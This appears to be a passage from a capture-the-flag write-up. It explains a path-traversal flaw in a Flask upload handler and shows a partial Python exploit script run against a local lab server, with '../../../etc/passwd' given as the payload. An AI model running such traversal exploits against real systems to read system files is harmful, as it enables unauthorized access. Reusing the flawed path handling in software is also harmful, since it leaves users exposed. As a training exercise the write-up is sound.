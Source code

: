 ```py
if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

The function here that we can exploit is `upload_file` function. The flaw in this is that it never checks for `../` in the filename we provide and directly stores our given filename into `filepath` in the database.

```py
def upload_file():
        ...

        file_path = os.path.join(user_dir, filename)

        print(f"{user_dir=}\n{filename=}\n{secure_filename(filename)=}")
        file.save(f"{user_dir}/{secure_filename(filename)}")
        

        new_file = File(filename=secure_filename(filename), filepath=file_path, user_id=user_id)
        db.session.add(new_file)
        db.session.commit()

        ...
```

Thus, if we provide a filename like `../../../etc/passwd`, we should be able to read the `/etc/passwd` file, giving us an LFI vulnerability.
 
## Exploit

exploit.py

```py
import requests

BASE_URL = 'http://localhost:5000'

session = requests.Session()

def register(username, password):
    url = f"{BASE_URL}/register"
    payload = {'username': username, 'password': password}
    response = session.post(url, json=payload)
    print(f"Register: {response.status_code} - {response.json()}")

def login(username, password):
    url = f"{BASE_URL}/login"
    payload = {'username': username, 'password': password}
    response = session.post(url, json=payload)
    print(response.cookies)
    print(f"Login: {response.status_code} - {response.json()}")

def upload_file(file_path, new_filename=None):
    url = f"{BASE_URL}/upload"
    files = {'file': (new_filename if new_filename else file_path.split('/')[-1], open(file_path, 'rb'))}
    response = session.post(url, files=files)
    print(f"Upload: {response.status_code} - {response.json()}")

def list_files():
    url = f"{BASE_URL}/files"
    response = session.get(url)
    print(f"List Files: {response.status_code} - {response.json()}")

def view_file(file_id):
```